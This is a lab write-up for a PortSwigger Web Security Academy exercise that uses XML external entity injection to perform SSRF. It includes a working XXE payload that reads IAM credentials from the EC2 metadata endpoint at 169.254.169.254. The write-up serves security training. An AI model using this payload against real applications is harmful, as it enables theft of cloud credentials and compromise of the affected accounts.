

# Exploiting XXE to perform SSRF attacks

**Lab Url**: [https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)

## Objective

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

## Solution

The stock check feature parses XML input and returns the resolved value in the response. By defining an external entity that points to an internal URL, we can perform an SSRF attack to read the EC2 metadata endpoint.

### Step 1: Inject an external entity targeting EC2 metadata

Replace the normal stock check XML with one that fetches the IAM security credentials from the instance metadata endpoint:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

The XML parser fetches the URL `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin` and includes the response — containing the IAM secret access key — in the application's output, solving the lab.


